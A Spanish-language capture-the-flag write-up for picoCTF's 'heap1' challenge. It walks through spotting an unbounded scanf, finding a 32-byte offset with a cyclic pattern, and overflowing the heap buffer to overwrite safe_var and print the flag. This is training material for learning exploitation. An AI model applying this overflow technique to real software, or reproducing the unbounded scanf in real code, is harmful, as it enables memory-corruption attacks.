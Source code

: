 # Heap 1

Como podemos ver, el ejercicio nos ofrece dos direcciones en memoria con su respectivo valor.

```c
./chall              

Welcome to heap1!
I put my data on the heap so it should be safe from any tampering.
Since my data isn't on the stack I'll even let you write whatever info you want to the heap, I already took care of using malloc for you.

Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data   
+-------------+----------------+
[*]   0x5555555596b0  ->   pico
+-------------+----------------+
[*]   0x5555555596d0  ->   bico
+-------------+----------------+

1. Print Heap:		(print the current state of the heap)
2. Write to buffer:	(write to your own personal block of data on the heap)
3. Print safe_var:	(I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:		(Try to print the flag, good luck)
5. Exit

Enter your choice: 
```

Nos da la posibilidad de escribir en el buffer. Vamos a ver el código para verificar si se está utilizando alguna función de forma insegura:

```c
void write_buffer() {
    printf("Data for buffer: ");
    fflush(stdout);
    scanf("%s", input_data);
}
```

Efectivamente, el `scanf` no limita el tamaño del input. Esto lo podemos usar para desbordar el buffer.

Si seguimos buscando en el código, podemos ver cuál es la condición para que se imprima la flag:

```c
void check_win() {
    if (!strcmp(safe_var, "pico")) {
        printf("\nYOU WIN\n");

        // Print flag
        char buf[FLAGSIZE_MAX];
        FILE *fd = fopen("flag.txt", "r");
        fgets(buf, FLAGSIZE_MAX, fd);
        printf("%s\n", buf);
        fflush(stdout);

        exit(0);
    } else {
        printf("Looks like everything is still secure!\n");
        printf("\nNo flag for you :(\n");
        fflush(stdout);
    }
}
```

Si elegimos la opción "Print Flag" y la variable `safe_var` es igual a `"pico"`, obtendremos la flag.

La variable `safe_var`, por lógica, es la que tiene `bico` como valor.

Vamos a crear un patrón cíclico para descubrir cuál es el offset desde el buffer hasta la variable `safe_var`:

```c
Enter your choice: 2
Data for buffer: aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

1. Print Heap:
2. Write to buffer:
3. Print safe_var:
4. Print Flag:
5. Exit

Enter your choice: 1
Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data   
+-------------+----------------+
[*]   0x5555555596b0  ->   aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaa1
aaraaasaaataaauaaavaaawaaaxaaayaaa
+-------------+----------------+
[*]   0x5555555596d0  ->   iaaajaaakaaalaaamaaanaaaoaaapaaa1
aaraaasaaataaauaaavaaawaaaxaaayaaa
+-------------+----------------+
```

Usando el patrón cíclico:

```c
pwn cyclic -l iaaa
32
```

Tenemos un offset de 32. Vamos a escribir 32 caracteres y luego `"pico"`:

```bash
python2 -c 'print ("A" * 32 + "pico")'
```

Salida:

```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAApico
```

Ejecutamos:

```c
Welcome to heap1!
...
Enter your choice: 2
Data for buffer: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAApico

Enter your choice: 4

YOU WIN
picoCTF{SECRETO}
```

¡Tenemos la flag!
